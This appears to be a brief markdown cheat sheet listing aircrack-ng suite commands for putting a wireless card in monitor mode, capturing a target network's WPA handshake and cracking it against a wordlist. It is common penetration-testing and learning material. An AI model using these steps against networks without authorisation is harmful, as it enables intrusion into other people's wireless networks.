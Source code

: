 ### list wireless network interfaces, as well as their current mode (managed/monitor/etc)
`iwconfig`

### other possibly helpful commands to view wireless device info
`ip a`
`ifconfig`
If your card doesn't show up, try `ifconfig wlan0 up` or `ifconfig wlan1 up` and try again

### put specified wireless network interface in monitor mode. note that this will change the name of the interface
`airmon-ng start <card>`

### listen for handshakes, Recording captures to specified file
hint: first find the channel the target is on. add -c and then the channel number
`airodump-ng --write <outputFile> <wireless interface> -c <channel number>`

### crack handshake
`aircrack-ng <capfile.cap> -w <wordList>`
If this doesn't work:
+ the password may not be in the list, try a different one
+ you may have a bad handshake, try capturing a new one

